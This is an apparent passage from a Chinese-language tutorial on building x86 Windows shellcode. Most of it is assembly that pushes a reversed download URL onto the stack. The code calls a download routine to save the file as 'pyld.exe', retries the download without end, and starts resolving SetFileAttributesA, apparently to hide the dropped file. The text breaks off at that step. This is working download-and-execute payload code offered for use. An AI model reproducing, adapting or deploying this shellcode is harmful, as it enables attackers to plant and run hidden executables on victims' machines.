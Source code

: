 ```
xor ecx,ecx
push ecx

;-----------------------------
;change it to file url

0x6578652e  ; exe.
0x30323032  ; 0202
0x51514350  ; QQCP
0x2f455845  ; /EXE
0x5f515143  ; _QQC
0x502f5151  ; P/QQ
0x43502f62  ; CP/b
0x65777171  ; ewqq
0x2f6d6f63  ; /moc
0x2e71712e  ; .qq.
0x6e776f64  ; nwod
0x2f2f3a73  ; //:s
0x70747468  ; ptth
;-----------------------------------


push esp 
pop ecx ;https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe

xor ebx,ebx
push ebx
;save as (no need change it.if U want to change it,do it)
push 0x6578652e
push 0x646c7970
;-------------------------------
push esp ;pyld.exe
pop ebx ;save as

xor edx,edx
push eax
push edx
push edx
push ebx
push ecx
push edx

call eax

;-------------------------

pop ecx
add esp,44
xor edx,edx
cmp eax,edx
push ecx
jnz download ;if it fails to download , retry contineusly
;------------------
pop edx
```
7. 找到`SetFileAttributesA()`地址
```
;-----------------------
;Finding address of SetFileAttributesA()
xor edx,edx


push 0x42424173
```
